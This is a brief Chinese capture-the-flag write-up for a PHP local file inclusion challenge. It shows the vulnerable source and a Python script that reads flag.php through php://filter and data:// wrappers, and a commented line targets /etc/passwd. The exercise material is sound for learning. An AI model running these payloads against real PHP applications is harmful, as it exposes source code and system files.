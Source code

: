 # fileclude

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET["file1"]) && isset($_GET["file2"]))
{
    $file1 = $_GET["file1"];
    $file2 = $_GET["file2"];
    if(!empty($file1) && !empty($file2))
    {
        if(file_get_contents($file2) === "hello ctf")
        {
            include($file1);
        }
    }
    else
        die("NONONO");
}
```

感觉和之前的一样，甚至没有校验会更简单。但难点在`file_get_contents($file2) === "hello ctf"`这部分的处理。

[参考答案](https://blog.csdn.net/weixin_42789937/article/details/128060363)里面对于`php://`的分析挺好。这道题扩充了输入的知识。

```python
import requests
# 目标URL
url = "http://61.147.171.105:55818/"
# payload= {'filename': '/etc/passwd'}
payload= {
    'file1': 'php://filter/read=convert.base64-encode/resource=flag.php',
    'file2': 'data://text/plain,hello ctf'
}

response = requests.get(url, params=payload)
print(response.text)
```
